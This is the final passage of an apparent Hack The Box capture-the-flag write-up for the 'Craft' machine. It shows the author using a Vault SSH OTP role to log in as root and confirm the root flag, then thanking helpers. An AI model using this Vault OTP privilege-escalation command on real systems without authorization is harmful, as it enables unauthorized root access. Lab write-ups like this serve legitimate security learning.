   Is clear is needed to execute something like `vault ssh -mode=otp -role=my-role user@1.2.3.4`, so we do it:

  ```console
gilfoyle@craft:~$  vault ssh -mode=otp -role=root_otp root@127.0.0.1
Vault could not locate "sshpass". The OTP code for the session is displayed
below. Enter this code in the SSH password prompt. If you install sshpass,
Vault can automatically perform this step for you.
OTP for the session is: 6290d45c-541f-fb96-32c7-3e5a8aa4a256


  .   *   ..  . *  *
*  * @()Ooc()*   o  .
    (Q@*0CG*O()  ___
   |\_________/|/ _ \
   |  |  |  |  | / | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | \_| |
   |  |  |  |  |\___/
   |\_|__|__|_/|
    \_________/



Password: 
Linux craft.htb 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Jan  4 00:46:56 2020 from 127.0.0.1
root@craft:~# wc -c root.txt
33 root.txt
root@craft:~# 
```

And we own root!!
Again I enjoyed quite a lot doing this box a few hours it was going to be retired, and again thanks @Frundrod and [@Fugl](https://www.hackthebox.eu/profile/103596) for pointing me in the right direction.

Thanks a lot for reading, and until the next write-up.
